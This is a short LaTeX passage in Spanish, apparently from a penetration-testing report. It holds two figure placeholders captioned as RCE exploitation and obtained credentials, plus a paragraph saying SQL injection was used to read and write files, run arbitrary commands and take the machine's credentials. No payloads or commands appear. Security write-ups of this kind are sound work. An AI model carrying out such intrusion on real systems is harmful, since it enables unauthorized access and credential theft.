	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen5.png}
    \caption{ Explotación  de RCE }
\end{figure}

Finalmente comenzamos a leer los archivos utilizando inyección SQL tal como se mostró en el ejemplo anterior. Podemos en este punto escribir, leer y manipular archivos a lo largo de toda la máquina, junto también con ejecutar comandos de manera arbitraria. De este modo, hemos ganado acceso total a esta, junto con sus credenciales.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen6.png}
    \caption{ Credenciales obtenidas }
\end{figure}